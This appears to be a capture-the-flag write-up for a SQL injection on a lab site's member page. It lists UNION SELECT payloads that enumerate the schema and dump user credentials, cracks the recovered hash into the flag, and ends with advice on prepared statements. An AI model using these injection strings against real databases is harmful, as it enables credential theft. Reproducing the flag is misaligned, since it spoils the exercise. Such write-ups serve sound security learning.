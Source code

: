 # SQL Injection - Members

`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Description

go to `/?page=member`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`

"Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

password => 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo

FortyTwo = fortytwo 
fortytwo => sh256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on SO regarding the `prepare` command :

>"The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."
